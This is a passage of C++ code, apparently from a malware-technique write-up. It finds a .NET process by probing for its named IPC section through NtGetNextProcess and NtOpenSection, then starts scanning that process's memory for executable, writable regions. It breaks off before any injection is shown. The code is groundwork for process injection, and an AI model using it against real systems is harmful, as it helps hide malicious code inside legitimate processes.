 ```cpp
  ACCESS_MASK        DesiredAccess,
  POBJECT_ATTRIBUTES ObjectAttributes
);

HANDLE findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function addresses
  fNtGetNextProcess_t myNtGetNextProcess = (fNtGetNextProcess_t) 
  GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");
  fNtOpenSection_t myNtOpenSection = (fNtOpenSection_t) 
  GetProcAddress(GetModuleHandle("ntdll.dll"), "NtOpenSection");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileNameA(procName)) == 0) {
      pid = GetProcessId(current);
      
      // check for "\\BaseNamedObjects\\Cor_Private_IPCBlock_v4_<PID>" section
      UNICODE_STRING sName;
      OBJECT_ATTRIBUTES oa;
      HANDLE sHandle = NULL;
      WCHAR procNumber[32];

      WCHAR objPath[] = L"\\BaseNamedObjects\\Cor_Private_IPCBlock_v4_";
      sName.Buffer = (PWSTR) malloc(500);

      // convert INT to WCHAR
      swprintf_s(procNumber, L"%d", pid);

      // and fill out UNICODE_STRING structure
      ZeroMemory(sName.Buffer, 500);
      memcpy(sName.Buffer, objPath, wcslen(objPath) * 2);   // add section name "prefix"
      StringCchCatW(sName.Buffer, 500, procNumber);      // and append with process ID
      sName.Length = wcslen(sName.Buffer) * 2;    // finally, adjust the string size
      sName.MaximumLength = sName.Length + 1;    
      
      InitializeObjectAttributes(&oa, &sName, OBJ_CASE_INSENSITIVE, NULL, NULL);
      NTSTATUS status = myNtOpenSection(&sHandle, SECTION_QUERY, &oa);
      if (NT_SUCCESS(status)) {
        CloseHandle(sHandle);
        break;
      }
    }
  }

  return current;
}



int findRWX(HANDLE h) {

  MEMORY_BASIC_INFORMATION mbi = {};
  LPVOID addr = 0;

  // query remote process memory information
  while (VirtualQueryEx(h, addr, &mbi, sizeof(mbi))) {
    addr = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);

```